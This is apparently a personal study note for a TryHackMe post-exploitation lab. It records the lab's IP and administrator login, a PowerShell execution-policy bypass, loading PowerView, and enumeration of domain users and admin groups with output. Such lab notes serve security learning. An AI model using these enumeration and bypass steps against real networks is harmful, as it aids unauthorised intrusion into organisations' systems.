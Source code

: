 ```yaml
---
creation date: June 1st 2023
last modified date: June 1st 2023
aliases: []
tags: #🧩
---
```


Primary Categories: [[06 - TryHackMe]] 
Search Tag: #🧩  

# [[03 - Post-Exploitation]]  

## Your machine IP is 10.10.178.123
## Username: Administrator
## Password: `P@$$W0rd`
## Domain Name: CONTROLLER

# Section 1

SSH into the box
```bash
ssh Administrator@10.10.178.123
```
Change CMD to Powershell and  -ep bypasses the execution policy of powershell allowing you to easily run scripts
```powershell
powershell -ep bypass
```
Start powerview
```powershell
. .\Downloads\PowerView.ps1
```
Enumerate the domain users - Get-NetUser | select cn
```powershell
PS C:\Users\Administrator> Get-NetUser | select cn 

cn
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd
```
Enumerate the domain groups - Get-NetGroup -GroupName *admin*
```powershell
PS C:\Users\Administrator> Get-Netgroup -GroupName *admin* 
Administrators 
Hyper-V Administrators
Storage Replica Administrators 
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins       
DnsAdmins
```

























___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: June 1st 2023 (08:58 pm) 
Last Modified Date: June 1st 2023 (08:58 pm)
